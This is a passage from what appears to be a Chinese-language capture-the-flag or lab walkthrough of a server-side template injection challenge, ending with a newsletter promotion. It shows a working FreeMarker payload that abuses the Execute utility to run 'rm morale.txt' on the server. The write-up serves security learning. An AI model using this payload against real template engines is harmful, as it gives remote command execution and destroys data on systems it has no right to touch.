 ![](img/2a3a019d082bbb332c163f1b187d0215.png)

让我们移除它。

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("rm morale.txt")}
```

![](img/d671538086d37b1d47ece5b1a63fb134.png)

解决

这个有点棘手。

我强烈建议你通读我提供的文章。它真的会拓宽你的理解。

请跟随我进行更多类似的演练。

直到下一次。快乐黑客

来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。 [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*